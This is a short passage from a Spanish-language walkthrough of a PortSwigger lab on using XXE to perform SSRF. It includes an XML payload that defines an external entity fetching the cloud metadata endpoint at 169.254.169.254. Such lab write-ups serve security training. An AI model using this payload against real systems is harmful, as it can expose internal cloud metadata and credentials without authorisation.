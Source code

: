      <img src="/assets/images/portswigger/exploiting_xxe_to_perform_ssrf_attacks/4.png" width="1000">
</p><br>

Recibimos como respuesta el string latest, lo agregamos a la url de la ip a la que queremos acceder y obtenemos la siguiente respuesta:
```plaintext
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>
<stockCheck>
        <productId>  
                &xxe;
        </productId> 
        <storeId>
                1 
        </storeId>
</stockCheck>
```
<p align="center">
     <img src="/assets/images/portswigger/exploiting_xxe_to_perform_ssrf_attacks/5.png" width="1000">
</p><br>
